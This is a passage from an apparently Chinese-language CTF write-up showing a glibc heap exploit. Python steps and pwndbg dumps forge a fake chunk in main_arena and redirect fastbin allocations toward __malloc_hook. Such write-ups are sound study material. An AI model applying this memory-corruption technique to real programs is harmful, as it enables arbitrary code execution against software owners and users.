 ```
pwndbg> x /10gx 0x0000555555757120-0x10
0x555555757110:	0x0000000000000000	0x00000000000000d1
0x555555757120:	0x00007ffff7dd1b78	0x00007ffff7dd1b78  //fd为main_arena+88 
0x555555757130:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
```
- 在`main_arena`中布局一个`fake chunk`  
首先在`main_arena`中伪造一个size:  
```python
remove(0)
remove(1)
remove(3)
add(0x30,0,p64(0x51))
add(0x30,1,'jcxp')
add(0x30,3,'jcxp')
```
如下图所示
```shell
pwndbg> bins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x51
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x5555557571a0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x5555557571a0
smallbins
empty
largebins
empty
pwndbg> x /10gx 0x7ffff7dd1b78-88
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000051
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
```
然后在`main_arena`布局我们的`fake chunk`


```python 
add(0x40,1,'jcxp')
target = libc_base + libc.symbols['__malloc_hook'] + 0x10 + 0x10
remove(2)
remove(1)
remove(4)
add(0x40,4,p64(target))
add(0x40,1,'jcxp')
add(0x40,2,'jcxp')
add(0x40,0,p64(0)*5 + p64(0x51)+p64(0))
#---


target = target + 0x28+0x8
remove(2)
remove(1)
remove(4)


add(0x40,2,p64(target))

```